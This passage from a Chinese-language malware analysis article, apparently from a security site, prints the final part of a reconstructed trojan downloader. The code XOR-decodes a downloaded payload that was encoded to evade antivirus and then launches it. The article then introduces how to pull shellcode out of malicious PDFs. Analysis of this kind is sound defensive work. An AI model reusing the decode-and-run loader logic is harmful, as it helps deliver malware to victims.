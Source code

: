 ```
                ReadFile(hFile, buffer_otherone, 1024, dwBytesRead, NULL);
                dwPos += 1024;
                for(int i=0; i<1024; ++i)
                {
                    if(buffer_otherone[i] != 0 && buffer_otherone[i] != 0x95)
                        buffer_otherone[i] ^= 0x95;
                }
                //事实上木马下载回来的文件是0x95异或过的，只是为了防杀，所以这里为了保证它能正常运行，还需要这一步给它解回来
                WriteFile(hFile2, buffer_otherone, 1024, 0, 0);
            }
            CloseHandle(hFile);
            CloseHandle(hFile2);
            buffer[strlen(buffer) - 5] = ‘a’; //实际上操作语句不是这样，不过最后结果一样，简单写好了
            DeleteFileA(buffer);
            buffer[strlen(buffer) - 5] = ‘b’; 
            WCHAR bufferw[256];
            MultiByteToWideChar(buffer, CP_ACP, 0, buffer, 256, bufferw,  256);
            CreateProcessInternalW(0,0, bufferw, 0, 0, 0, 0); //启动木马
        }
    }
}while(0);

ExitProcess(0);

```

MALICIOUS_URL就这玩意，不贴上来了，要不白送别人一个友情链接多不好：

![enter image description here](http://drops.javaweb.org/uploads/images/4c8feec39c81d465ae77954c839bb228ac9e904b.jpg)

VI.2 Shellcode in PDF
=====================

* * *

Adobe PDF Reader是一个全球内都广泛使用的工具，而它又可以在IE中实例化，因此，PDF漏洞也是攻击者热衷于挖掘和利用的一个重要部分，而PDF中也允许Javascript的执行，这就更加剧了其安全问题，本节将简单介绍如何提取PDF中的Shellcode。

关于PDF结构的细节不在这里过多介绍，以下是一个PDF的很常见的形式，PDF有明显的“节”（x x obj）和“节”信息（用双尖括号包围），而为了控制PDF的大小，PDF是支持多种压缩方式的，一种方式是zlib算法的压缩，这种方式压缩的节显示如下，可以从FlateDecode来区分出来。

在stream-endstream之间的就是压缩后的内容，还有个特征是这段内容的第一个字是“x”。

![enter image description here](http://drops.javaweb.org/uploads/images/ee9b8c04c0b1783500d1b96835b7e4620361ff4e.jpg)

当然，PDF也是支持明文存放的甚至于直接内部执行JS，例如：

![enter image description here](http://drops.javaweb.org/uploads/images/7dddcfd12b3e241c7fbfa22e990df666d3c19f06.jpg)

`16 0 obj - endobj`中间的就是js脚本。

针对PDF的解析可以参考我之前放出来的Redoce工具，可以针对性地对压缩过的部分进行解压，例如图中这节压缩内容解压后明显是垃圾信息，因此可以跳过：

![enter image description here](http://drops.javaweb.org/uploads/images/aba01743707915626721f3d016f4fc3cf748ea7f.jpg)
